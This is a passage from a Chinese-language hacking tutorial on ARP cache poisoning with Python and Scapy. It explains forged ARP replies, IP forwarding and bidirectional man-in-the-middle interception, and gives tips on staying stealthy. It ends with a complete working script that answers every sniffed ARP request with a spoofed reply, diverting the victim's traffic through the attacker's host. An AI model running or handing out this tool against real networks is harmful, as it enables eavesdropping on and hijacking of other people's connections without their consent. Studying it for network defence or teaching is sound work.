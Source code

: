 在`Scapy`的帮助下，我们构造了一个名为`packet`的数据包，里面包括一个**Ethernet()**及一个**ARP()**头。在ARP头部中，我们设置了受害者的IP地址（`target_ip`）和我们想劫持所有连接的IP地址（`fake_ip`）。对于最后一个参数，我们设置**OP-Code**为`is-at`，声明该数据包为一个ARP响应。然后`sendp()`函数在每次发送数据包时，都等待10秒并一直循环发送下去。

需要注意的是，你必须使用`sendp()`函数而不是`send()`函数，因为数据包应该在第二层被发送。`send()`则是在第三层发送数据包。

最后，要记得启用IP转发，否则你的主机会阻塞来自受害者的连接。

```
sysctl net.ipv4.ip_forward=1

```

不要忘记检查像`IPtables`这样的数据包过滤器的设置，使用`pf`或`ipfw`或直接禁用它，现在已经了解了足够多的枯燥的理论知识，让我们直接进入一些实用的`Python`代码吧！

如果你只是用`fake_ip`来处理客户端的`ARP`缓存，那么你只会得到客户端的数据包，而无法接收到服务端的响应。如下图所示。

![enter image description here](http://drops.javaweb.org/uploads/images/5f1251de47330928f076f0023a8577661b3e36db.jpg)

如下图所示，要强制通过攻击者的主机进行双向连接，攻击者就必须使用他的`MAC`地址，来伪造客户端和服务端的相关目的地址。

![enter image description here](http://drops.javaweb.org/uploads/images/dfa0ea0c53d54ae70d72b83f8781e7969e06af4b.jpg)

我们的第一段代码有些粗糙，它发送了大量的`ARP`报文，不仅产生了所需要的流量，而且也比较暴露。隐蔽的攻击者会采取另一种策略。

一台主机如果想要获取有关`IP`地址的信息，会发出一个`ARP`请求。我们将编写一个程序，等待`ARP`请求，并为每一个接收到的请求发送一个`ARP`欺骗响应。在交换环境中，这将导致每一个连接都会流经攻击者的主机，因为在`ARP`缓存中，每一个`IP`地址都会有攻击者的`MAC`地址。这个攻击更加优雅，不像之前的那个那么嘈杂，但还是很容易被一个训练有素的管理员检测到。

如下图所示，欺骗性的响应数据包和真实主机的响应数据包被并行发送。谁的数据包先被受害者的网卡接收到，则谁获胜。

![enter image description here](http://drops.javaweb.org/uploads/images/02b5119291334574c4812767b6bdffeb7186dd41.jpg)

```
#!/usr/bin/python    

import sys
from scapy.all import sniff, sendp, ARP, Ether    

if len(sys.argv) < 2:
    print sys.argv[0] + " <iface>"
    sys.exit(0)    


def arp_poison_callback(packet):
        # Got ARP request?
        if packet[ARP].op == 1:
            answer = Ether(dst=packet[ARP].hwsrc) / ARP()
            answer[ARP].op = "is-at"
            answer[ARP].hwdst = packet[ARP].hwsrc
            answer[ARP].psrc = packet[ARP].pdst
            answer[ARP].pdst = packet[ARP].psrc    

            print "Fooling " + packet[ARP].psrc + " that " + \
                    packet[ARP].pdst + " is me"    

            sendp(answer, iface=sys.argv[1])    

sniff(prn=arp_poison_callback,
        filter="arp",
        iface=sys.argv[1],
        store=0)

```
